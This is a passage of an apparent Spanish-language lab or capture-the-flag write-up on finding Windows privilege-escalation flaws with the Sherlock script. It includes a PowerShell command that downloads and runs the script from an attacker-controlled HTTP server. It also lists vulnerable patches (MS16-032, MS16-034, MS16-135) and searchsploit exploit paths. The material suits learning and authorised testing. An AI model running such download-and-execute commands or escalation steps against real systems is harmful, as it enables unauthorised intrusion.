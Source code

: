 Buscando herramientas que busquen vulnerabilidades en el sistema Windows di con este post:

[https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/](https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/)

Sigo los pasos descargando el repositorio --> [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)


> Ejecutamos el servidor de python

`` python3 -m http.server 8080 ``

> Subimos y ejecutamos el Sherlock.ps1 con el comando:

`` powershell "iex(new-object net.webclient).downloadString('http://10.10.14.3:8080/Sherlock.ps1');Find-AllVulns" ``

> Encontramos 3 posibles Vulnerabilidades

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

Tenemos 3 posibles Vulnerabilidades, empezaré por la primera.

Buscando exploits encuentro lo siguiente:

```bash
❯ searchsploit ms16-032
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Local Privilege Escalation (MS16-032)                                                                   | windows/local/39809.cs
Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Secondary Logon Handle Privilege Escalation (MS16-032) (Metasploit)                                     | windows/local/40107.rb
Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)                                                   | windows/local/39719.ps1
Microsoft Windows 8.1/10 (x86) - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032)                                     | windows_x86/local/39574.cs
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
``` 
